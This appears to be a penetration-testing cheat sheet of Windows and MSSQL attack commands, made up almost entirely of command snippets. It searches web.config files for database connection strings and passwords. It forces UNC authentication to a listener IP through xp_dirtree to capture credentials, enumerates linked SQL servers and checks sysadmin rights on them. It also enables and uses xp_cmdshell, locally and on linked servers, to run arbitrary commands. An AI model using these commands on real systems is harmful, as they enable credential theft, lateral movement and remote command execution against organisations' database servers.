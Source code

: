 ## findstr db password in web.config
```
findstr /s /i ConnectionString <PATH>*.config && echo finish
```

## Powershell Load DLL
```
Add-Type -LiteralPath <filename.dll>
```

# MSSQL

## Find lined servers
```
EXEC sp_linkedservers;
```

## xp_dirtree
https://github.com/NetSPI/PowerUpSQL/wiki/SQL-Server---UNC-Path-Injection-Cheat-Sheet
```
exec xp_dirtree '\\<listen_ip>\file'
```

## Check link server AT other server
```
EXEC ('sp_linkedservers') AT [<link_sqlserver>]
```

## Check sysadmin on link server
```
select mylogin from openquery("<link_sqlserver>", 'SELECT IS_SRVROLEMEMBER(''sysadmin'') as mylogin');
```

## Enable xp_cmdshell on link server
```
EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [<link_sqlserver>]
```

## Exec xp_cmdshell on link server
```
EXEC ('EXEC xp_cmdshell ''<cmd>'' ') AT [<link_sqlserver>]
```

## Enable xp_cmdshell
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```
